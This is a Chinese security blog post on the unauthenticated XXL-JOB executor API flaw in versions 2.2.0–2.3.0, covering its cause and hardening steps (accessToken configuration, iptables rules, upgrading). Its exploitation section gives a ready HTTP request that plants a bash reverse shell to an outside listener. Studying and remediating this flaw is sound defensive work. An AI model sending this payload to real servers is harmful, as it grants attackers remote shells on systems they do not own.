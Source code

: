 #  漏洞研究(7)：XXL-JOB执行器未授权访问漏洞（RESTful API）   
原创 罗锦海  OneMoreThink   2025-05-13 16:00  
  
1. 组件介绍  
  
1. 原理与危害  
  
1. 影响版本  
  
1. 利用方式  
  
1. 加固措施  
  
1. 开启身份认证  
  
1. 限制端口访问  
  
1. 升级至安全版本  
  
## 1. 组件介绍  
  
XXL-JOB是一个分布式**任务调度**  
平台，分为调度中心和执行器两部分。  
  
在调度中心添加执行器后，调度中心可以对执行器进行命令执行，属于集权系统，可以帮助攻击者批量获取服务器权限。  
  
同时，通过调度中心横向到执行器，往往可以帮助攻击者实现跨网横移，这在网络策略严格的环境中具有较大价值。  
## 2. 原理与危害  
  
调度中心使用RESTful API对执行器进行调度通信时，可以使用accessToken向执行器证明自己的身份。  
  
如果没有配置accessToken，任何人都能对执行器发起调度通信，对执行器所在的服务器进行任意命令执行，从而获得执行器所在服务器的权限。  
## 3. 影响版本  
  
受影响版本是2.2.0 <= XXL-JOB <= 2.3.0  
，具体如下：  
1. 2.2.0  
  
1. 2.3.0  
  
## 4. 利用方式  
```
POST /run HTTP/1.1Host: 10.58.81.107:9999Content-Length: 383{  "jobId": 1,  "executorHandler": "demoJobHandler",  "executorParams": "demoJobHandler",  "executorBlockStrategy": "COVER_EARLY",  "executorTimeout": 0,  "logId": 1,  "logDateTime": 1745646241,  "glueType": "GLUE_SHELL",  "glueSource": "bash -i >& /dev/tcp/10.58.81.119/8888 0>&1",  "glueUpdatetime": 1745646241,  "broadcastIndex": 0,  "broadcastTotal": 0}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzW9nkR7Feib9f83mh3RJbtVk4FoNvgFkEZIE9JVhEKpQiau3XEJURUrSXA/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWqrKEBevcaUkRm8zqXYhSyo6KeIagXhtLzp3KibBiaTM319EfPRNW8lJg/640?from=appmsg "")  
## 5. 加固措施  
  
可参考XXL-JOB作者恨铁不成钢的防护建议：[XXL JOB 未授权访问致远程命令执行 "漏洞" 声明](https://mp.weixin.qq.com/s?__biz=MzAwMTQwMjE0OA==&mid=2247483841&idx=1&sn=3f41c011f0709a644e1d1accbb1905b6&scene=21#wechat_redirect)  
  
### 5.1 开启身份认证  
  
配置accessToken，开启身份认证，**调度中心和执行器**  
的值需保持一致。  
  
accessToken在调度中心的配置文件是xxl-job-admin/src/main/resources/application.properties  
，配置项是xxl.job.accessToken=  
。  
  
accessToken在执行器的配置文件是xxl-job-executor-samples/xxl-job-executor-sample-springboot/src/main/resources/application.properties  
，配置项是xxl.job.accessToken=  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWAJxAVUd62bvqn27ZaYeBvwQUI3uWtfdlibv80IDr2kypcyNiczsIA1RQ/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWNibVcG6Xt9JQJjyliaZWvLExgFotbQSY9Y9HrYjUTcNPI2t0fUibV5hqg/640?from=appmsg "")  
  
例如将accessToken的值修改为OneMoreThink666666：  
```
cd /usr/local/xxl-job-2.2.0sed -i 's/xxl.job.accessToken=/xxl.job.accessToken=OneMoreThink666666/g' /usr/local/xxl-job-2.2.0/xxl-job-admin/src/main/resources/application.propertiessed -i 's/xxl.job.accessToken=/xxl.job.accessToken=OneMoreThink666666/g' /usr/local/xxl-job-2.2.0/xxl-job-executor-samples/xxl-job-executor-sample-springboot/src/main/resources/application.properties
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWKNbxYJ3tmb0of32LCuLb3xF2rLlCshibCwrROrzU0IfOBUTSqJEiaPow/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWXFDPALogl2G64QSMxVG3ScoOoic552r0NTHIrvbamFJ1qZtrmSzzAmw/640?from=appmsg "")  
  
然后重新打包与部署：  
```
### 打包cd /usr/local/xxl-job-2.2.0mvn clean package## 部署调度中心和执行器java -jar xxl-job-admin/target/xxl-job-admin-2.2.0.jar &java -jar xxl-job-executor-samples/xxl-job-executor-sample-springboot/target/xxl-job-executor-sample-springboot-2.2.0.jar
```  
  
再次对执行器进行未授权任意代码执行，如果报错The access token is wrong  
，说明漏洞修复成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzWjMpHvcJLB85J71DpvZzX9oLzBASktiaWJkI8RiaMAoeloB5TJX0kPzSw/640?from=appmsg "")  
### 5.2 限制端口访问  
  
在**执行器所在的服务器**  
中配置本地防火墙，只允许调度中心访问执行器的9999端口。  
```
# 如果担心已有规则干扰，可将允许规则插入到链的顶部。# 即时调度中心和执行器在同一台服务器中，该命令不会影响调度中心对执行器的正常通信。iptables -I INPUT 1 -p tcp -s 10.58.81.107 --dport 9999 -j ACCEPT# 拒绝其他所有IP访问9999端口iptables -A INPUT -p tcp --dport 9999 -j DROP# 永久保存规则（CentOS中）yum install iptables-services -y && service iptables save && systemctl enable iptables
```  
  
再次对执行器进行未授权任意代码执行，如果没有响应，连接失败，说明漏洞修复成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hJB695EcV91yphAXTXq2Y53BSM7rlLzW47N7qmDweiby5BLbEorbBDorKsbibGAAZuAlY7eOWVNVSSIY525rrZzQ/640?from=appmsg "")  
### 5.3 升级至安全版本  
  
建议升级至2.4.1及以上版本。  
  
